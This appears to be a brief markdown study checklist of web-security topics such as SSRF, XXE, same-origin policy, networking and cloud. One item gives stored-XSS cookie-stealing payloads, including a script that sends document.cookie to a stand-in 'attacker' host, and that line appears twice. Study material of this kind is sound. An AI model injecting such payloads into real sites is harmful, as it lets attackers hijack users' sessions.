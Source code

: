 - [ ] What is SSRF
- [ ] SSRF protection
- [ ] What is XXE
- [ ] XXE protection
- [ ] What is SOP and How company uses it?
- [ ] What is the payload for stored XSS cookie stealing? 
	 `<img src="javascript:'/log/' + document.cookie" />`
	 `<script>document.location=’http://attacker/cookie='+document.cookie</script>`	 `<script>document.location=’http://attacker/cookie='+document.cookie</script>`

- [ ] Networking 
- [ ] Cloud